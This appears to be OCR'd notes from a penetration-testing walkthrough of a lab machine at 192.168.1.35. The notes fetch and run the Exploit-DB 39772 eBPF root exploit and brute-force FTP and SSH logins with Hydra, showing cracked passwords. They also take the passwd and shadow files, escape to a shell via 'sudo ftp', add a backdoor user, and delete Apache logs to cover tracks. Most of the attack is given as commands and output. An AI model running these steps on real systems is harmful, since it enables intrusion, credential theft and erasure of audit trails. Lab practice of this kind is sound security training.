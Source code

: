 o	Description:    Ubuntu 16.04 LTS
o	Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
o	If .zip use unzip to extract, if .gz use gunzip to extract
o	wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
o	unzip 39772.zip
o	cd 39772
o	to extract .tar extension tar -xvf <file.tar>
o	cd ebpf_mapfd_doubleput_exploit
o	$ ./compile.sh
o	$ ./doubleput
o	Now if you check whoami it will show ‘root’
•	Hydra is a tool to guess/crack valid login/password pairs.
	hydra -h
	hydra -l elly -e nsr
•	Ex. Username: elly
•	n = null  Password: ___
•	s = same  Password: elly
•	r = reverse  Password: ylle
o	FTP  21/tcp
	hydra -l elly -e nsr ftp://192.168.1.35 
[DATA] attacking ftp://192.168.1.35:21/
[21][ftp] host: 192.168.1.35   login: elly   password: ylle
1 of 1 target successfully completed, 1 valid password found
	now look for the sensitive files like, get dbconfig-common, shadow, passwd.
	In the passwd file we get more users list for sorting it we use
	cat passwd | grep /home  will shows only user’s details
	cat passwd | grep /home | cut -d ':' -f 1  only will show usernames
	cat passwd | grep /home | cut -d ':' -f 1| tee users.txt  to save it into users text file
	hydra -L users.txt -e nsr ftp://192.168.1.35
	here we get all cracked passwords for users who used nsr
o	SSH  22/tcp
	Here we can try hydra on ssh ports 
	hydra -L users.txt -e nsr ssh://192.168.1.35
	ssh SHayslett@192.168.1.35
•	passwd: SHayslett
o	GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. -- gtfobins.github.io
	Ex. Search for sudo ftp permissions
•	sudo ftp
•	!/bin/sh
	Now again for escalating privilege repeat the steps
	Use exploit exploit-db.com/exploits/39772
	Dwnld > extract > and commands > XD root@red

o	Maintain Access in the target machine
	You can add user by creating
•	adduser bobby
•	pswd: hacked
o	Covering Tracks
	cd /var/log/apache2
	cat access.log | grep '192.168'
•	this are the logs you have to delete related to u rip
•	rm access.log
•	or you can just simply delete all the log files present and get out
